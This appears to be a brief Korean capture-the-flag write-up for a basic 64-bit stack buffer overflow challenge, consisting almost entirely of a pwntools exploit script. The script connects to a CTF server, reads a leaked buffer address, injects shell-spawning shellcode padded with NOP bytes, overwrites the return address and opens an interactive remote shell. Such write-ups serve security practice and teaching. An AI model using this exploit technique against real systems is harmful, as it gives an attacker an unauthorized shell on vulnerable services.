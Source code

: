 # x64 Simple_size_BOF

매우 기본적인 64bit 환경에서의 BOF 문제이다.   
<br/>


```
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3005)

p.recvuntil('buf: ')
buf = int(p.recv(14),16)

context.arch = 'amd64'
shellcode = asm(shellcraft.sh())

payload = ''
payload += shellcode
payload += '\x90'*(0x6d38-len(shellcode))
payload += p64(buf)

p.sendline(payload)
p.interactive()

```
